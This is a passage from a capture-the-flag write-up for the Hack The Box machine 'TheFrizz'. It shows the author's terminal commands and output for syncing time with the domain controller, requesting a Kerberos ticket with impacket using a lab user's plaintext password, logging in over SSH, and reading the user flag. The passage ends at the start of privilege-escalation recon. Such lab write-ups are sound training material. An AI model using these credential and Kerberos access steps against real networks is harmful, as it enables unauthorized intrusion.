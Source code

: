 `ntpdate` is used again to sync the attack host time with the target.

```
fcoomans@kali:~/htb/thefrizz$ sudo ntpdate frizzdc.frizz.htb
2025-07-22 15:15:06.422546 (+0200) +148.922391 +/- 0.082922 frizzdc.frizz.htb 10.10.11.60 s1 no-leap
CLOCK: time stepped by 148.922391
```

And then a Kerberos ticket granting ticket (`TGT`) is requested for Fiona.

```
fcoomans@kali:~/htb/thefrizz$ impacket-getTGT -dc-ip 10.10.11.60 'FRIZZ.HTB/f.frizzle:Jenni_Luvs_Magic23'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in f.frizzle.ccache

fcoomans@kali:~/htb/thefrizz$ export KRB5CCNAME=f.frizzle.ccache

fcoomans@kali:~/htb/thefrizz$ klist
Ticket cache: FILE:f.frizzle.ccache
Default principal: f.frizzle@FRIZZ.HTB

Valid starting       Expires              Service principal
07/22/2025 13:40:12  07/22/2025 23:40:12  krbtgt/FRIZZ.HTB@FRIZZ.HTB
        renew until 07/23/2025 13:40:11
```

`ssh` is told to use the TGT to connect to the target, by using the GSSAPI/Kerberos (`-K`) flag.

```
fcoomans@kali:~/htb/thefrizz$ ssh -K f.frizzle@frizzdc.frizz.htb
PowerShell 7.4.5
PS C:\Users\f.frizzle> whoami
frizz\f.frizzle
```

### 💰 Post Exploitation

#### 🚩 user.txt

Fiona holds the `user.txt` flag.

```
PS C:\Users\f.frizzle> type C:\Users\f.frizzle\Desktop\user.txt
type C:\Users\f.frizzle\Desktop\user.txt
e51b4afc2ce5ff384ec532e5e7b82e29
```

## 🔼 PrivEsc to M.SchoolBus

### 🔎 Recon

`whoami /user` shows that Fiona's SID is `S-1-5-21-2386970044-1145388522-2932701813-1103`.
